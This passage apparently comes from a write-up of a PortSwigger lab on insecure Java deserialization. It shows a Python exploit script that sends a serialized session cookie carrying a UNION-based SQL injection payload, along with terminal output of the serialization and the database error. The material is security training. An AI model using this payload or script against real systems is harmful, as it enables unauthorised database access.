 
We successfully triggered an SQL syntax error! Which means it's vulnerable to SQL injection!

We also knew that the DBMS (Database Management System) is PostgreSQL from the `ProductTemplate.java` file.

**Next, we need to find out how many columns in the table.**

**To automate things, I'll write a python script:**
```py
#!/usr/bin/env python3

import requests
from bs4 import BeautifulSoup

class exploit():
    def __init__(self, url):
        self.url = url
        
    def sendRequest(self, cookie):
        requestResult = requests.get(self.url, cookies=cookie)
        soup = BeautifulSoup(requestResult.text, 'html.parser')
        print(soup.find_all('div', class_='container')[1].get_text().strip())

def main():
    url = 'https://0ad3005a043b8fd3c07bccd80011000a.web-security-academy.net/'

    Exploit = exploit(url)

    cookie = {
        'session': 'rO0ABXNyACNkYXRhLnByb2R1Y3RjYXRhbG9nLlByb2R1Y3RUZW1wbGF0ZQAAAAAAAAABAgABTAACaWR0ABJMamF2YS9sYW5nL1N0cmluZzt4cHQAOScgVU5JT04gQUxMIFNFTEVDVCBOVUxMLE5VTEwsTlVMTCxOVUxMLE5VTEwsTlVMTCxOVUxMLS0gLQ=='
    }

    Exploit.sendRequest(cookie)

if __name__ == '__main__':
    main()
```

```shell
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 18:49:07
╰─○ javac Main.java   
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 18:50:58
╰─○ java Main         
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Serialized object: rO0ABXNyACNkYXRhLnByb2R1Y3RjYXRhbG9nLlByb2R1Y3RUZW1wbGF0ZQAAAAAAAAABAgABTAACaWR0ABJMamF2YS9sYW5nL1N0cmluZzt4cHQAOScgVU5JT04gQUxMIFNFTEVDVCBOVUxMLE5VTEwsTlVMTCxOVUxMLE5VTEwsTlVMTCxOVUxMLS0gLQ==
Deserialized id: ' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 18:51:00
╰─○ python3 exploit.py
Internal Server Error
java.io.IOException: org.postgresql.util.PSQLException: ERROR: each UNION query must have the same number of columns
  Position: 55
```
